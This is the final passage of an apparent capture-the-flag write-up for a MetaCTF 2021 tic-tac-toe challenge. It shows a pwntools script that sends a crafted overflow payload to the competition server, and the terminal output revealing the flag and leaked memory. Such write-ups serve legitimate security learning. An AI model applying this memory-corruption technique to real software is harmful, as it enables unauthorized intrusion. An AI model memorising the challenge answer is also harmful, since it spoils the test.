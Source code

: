 #target = process('./chall')

#pid = gdb.attach(target, "\nb *read_board+29\nb *read_board+352\n set
disassembly-flavor intel\ncontinue")

target = remote('host.cg21.metaproblems.com', 3120)

print(target.recvuntil(b'time if you prefer'))

payload = (b'a' * 9 + b'\x12' + b'\x4f')

target.sendline(payload)

target.interactive()  
```  
And here is how it looks when I run the script:  
```  
knittingirl@piglet:~/CTF/metaCTF21/tic_tac_toe$ python3 tic_tac_toe_payload.py  
[+] Opening connection to host.cg21.metaproblems.com on port 3120: Done  
b"Check out this sweet Tic-Tac-Toe Solver I made!\nAll you have to do is to
input your array into the system and I'll tell you who won\nYou can enter them
all at once, or one at a time if you prefer"  
[*] Switching to interactive mode

Bad Character, try again  
Bad Character, try again  
Bad Character, try again  
Bad Character, try again  
Bad Character, try again  
Bad Character, try again  
Bad Character, try again  
Bad Character, try again  
Bad Character, try again  
Bad Character, try again  
Something went wrong  
Something went wrong  
Something went wrong  
The game is a CAT  
MetaCTF{Tic_Tac_Pwn}  
\x7f\x00\xa0\xc0\xd9\xd3%V\x00\xe0\x99C\xff\x7f\x00\x00\x00\x00\x00z\xc4\xd9\xd3%V\x00\xf9\xc3\xd9\xd3%V\x00\xe6\x99C\x00\x00\xf0\x99C\xff\x7f\x00\x06\xd9\xd3%V\x00\xa0\xc0\xd9\xd3%Vaaaaaa$  
```  
Thanks for reading!Original writeup (https://museifu.com/#tic-tac-toe).